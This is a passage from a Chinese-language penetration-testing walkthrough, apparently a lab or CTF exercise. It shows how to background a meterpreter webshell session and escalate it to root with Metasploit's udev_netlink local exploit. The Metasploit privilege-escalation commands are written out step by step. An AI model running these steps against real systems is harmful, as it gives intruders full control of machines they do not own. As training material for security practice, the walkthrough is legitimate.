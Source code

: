 ![](/img/截图_2019-11-03_13-58-47.png)

可见权限小得可怜，不过也第三关就这样通过了。权限的问题我们会在第四关解决

### 第四关|获取root权限

你能做到这里说明你已经不是萌新了，最后一关：提权

这是最关键的一环，那么我们开始吧。

首先把我们刚刚获取的webshell放到后台:

```
meterpreter > background
```

然后我们使用这个模块`exploit/linux/local/udev_netlink`(用别的也可以，我个人喜欢用这个:)

```bash
msf5 exploit(multi/handler) > use exploit/linux/local/udev_netlink
```

模块的信息你可以自己输入 **`info`** 这个命令去查看，

然后我们设置刚刚webshell的session号，我的是2:

```bash
msf5 exploit(linux/local/udev_netlink) > set SESSION 2
```

最后执行 **`run`** 或者 **`exploit`** :

```bash
msf5 exploit(linux/local/udev_netlink) > exploit
```

这样我们就获取到最高权限了，如图:

![](/img/截图_2019-11-03_14-07-51.png)

我们来看看用户是不是root
